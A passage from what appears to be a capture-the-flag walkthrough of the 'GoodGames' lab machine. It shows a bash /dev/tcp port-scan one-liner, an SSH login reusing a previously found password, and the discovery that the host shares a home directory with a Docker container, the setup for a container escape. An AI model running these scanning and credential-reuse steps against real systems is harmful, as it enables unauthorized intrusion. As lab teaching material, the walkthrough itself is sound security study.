 Note: You can also do this natively with bash with:

```
for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
```

Cool, so looks like SSH is open on the host.

Trying out the user augustus with the `superadministrator` credential we discovered earlier, we drop into a new shell.

```
root@3a453ab39d3d:/tmp# ssh augustus@172.19.0.1
The authenticity of host '172.19.0.1 (172.19.0.1)' can't be established.
ECDSA key fingerprint is SHA256:AvB4qtTxSVcB0PuHwoPV42/LAJ9TlyPVbd7G6Igzmj0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '172.19.0.1' (ECDSA) to the list of known hosts.
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$ whoami
augustus
augustus@GoodGames:~$ hostname
GoodGames
```

Nice.

After playing around awhile I found that whatever files are created on goodgames via the SSH session are also present in docker:

```
augustus@GoodGames:~$ echo 'hi' > test.txt
augustus@GoodGames:~$ ls
test.txt  user.txt
augustus@GoodGames:~$ cat test.txt
hi
augustus@GoodGames:~$ exit
logout
Connection to 172.19.0.1 closed.
root@3a453ab39d3d:/tmp# cd /home/augustus 
root@3a453ab39d3d:/home/augustus# ls -la
total 28
drwxr-xr-x 2 1000 1000 4096 Jul 23 21:23 .
drwxr-xr-x 1 root root 4096 Nov  5  2021 ..
lrwxrwxrwx 1 root root    9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000 3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000  807 Oct 19  2021 .profile
-rw-r--r-- 1 1000 1000    3 Jul 23 21:23 test.txt
-rw-r----- 1 root 1000   33 Jul 23 17:42 user.txt
```
